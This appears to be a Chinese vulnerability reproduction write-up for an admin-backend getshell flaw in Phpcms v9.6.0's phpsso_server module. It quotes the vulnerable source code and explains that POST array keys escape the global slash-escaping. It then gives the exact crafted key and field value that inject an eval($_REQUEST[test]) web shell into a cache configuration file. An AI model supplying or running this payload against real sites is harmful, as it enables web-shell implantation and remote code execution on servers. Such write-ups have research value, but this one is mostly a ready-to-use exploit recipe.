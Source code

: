 Phpcms v9.6.0后台getshell
=========================

一、漏洞简介
------------

phpsso\_server 后台getshell

二、漏洞影响
------------

Phpcms v9.6.0

三、复现过程
------------

漏洞来自于ROOTDIR/phpsso\_server/phpcms/modules/admin/system.php

    public function uc() {
            if (isset($_POST['dosubmit'])) {
                $data = isset($_POST['data']) ? $_POST['data'] : '';
                $data['ucuse'] = isset($_POST['ucuse']) && intval($_POST['ucuse']) ? intval($_POST['ucuse']) : 0;
                $filepath = CACHE_PATH.'configs'.DIRECTORY_SEPARATOR.'system.php';
                $config = include $filepath;
                $uc_config = '<?php '."\ndefine('UC_CONNECT', 'mysql');\n";
                foreach ($data as $k => $v) {
                    $old[] = "'$k'=>'".(isset($config[$k]) ? $config[$k] : $v)."',";
                    $new[] = "'$k'=>'$v',";
                    $uc_config .= "define('".strtoupper($k)."', '$v');\n";
                }
                $html = file_get_contents($filepath);
                $html = str_replace($old, $new, $html);
                $uc_config_filepath = CACHE_PATH.'configs'.DIRECTORY_SEPARATOR.'uc_config.php';
                @file_put_contents($uc_config_filepath, $uc_config);
                @file_put_contents($filepath, $html);
                $this->db->insert(array('name'=>'ucenter', 'data'=>array2string($data)), 1,1);
                showmessage(L('operation_success'), HTTP_REFERER);
            }
            $data = array();
            $r = $this->db->get_one(array('name'=>'ucenter'));
            if ($r) {
                $data = string2array($r['data']);
            }
            include $this->admin_tpl('system_uc');
        }

来自这段中的

\$data = isset(\$\_POST\[\'data\'\]) ? \$\_POST\[\'data\'\] : \'\';

和

foreach (\$data as \$k =\> \$v) {\$old\[\] = \"\'\$k\'=\>\'\".(isset(\$config\[\$k\]) ? \$config\[\$k\] :
\$v).\"\',\";\$new\[\] = \"\'\$k\'=\>\'\$v\',\";\$uc\_config .= \"define(\'\".strtoupper(\$k).\"\', \'\$v\');\\n\";}

这里接收post\[\'data\'\]数据中的key，value并写入配置文件ROOTDIR/phpsso\_server/caches/configs/uc\_config.php中

在ROOTDIR/phpcms/libs/classes/param.class.php中

    public function __construct() {
            if(!get_magic_quotes_gpc()) {
                $_POST = new_addslashes($_POST);
                $_GET = new_addslashes($_GET);
                $_REQUEST = new_addslashes($_REQUEST);
                $_COOKIE = new_addslashes($_COOKIE);
            }

全局过滤了post，但是这里只过滤了value，并没有过滤key

![](./resource/Phpcmsv9.6.0后台getshell/media/rId24.png)

在这个地方，我们可以构造

    name="data[uc_api','11');/*]"

并在Ucenter api 地址输入:

    */eval($_REQUEST[test]);//

再进行缓存更新

![](./resource/Phpcmsv9.6.0后台getshell/media/rId25.png)

就成功写入了一句话

![](./resource/Phpcmsv9.6.0后台getshell/media/rId26.png)

![](./resource/Phpcmsv9.6.0后台getshell/media/rId27.png)
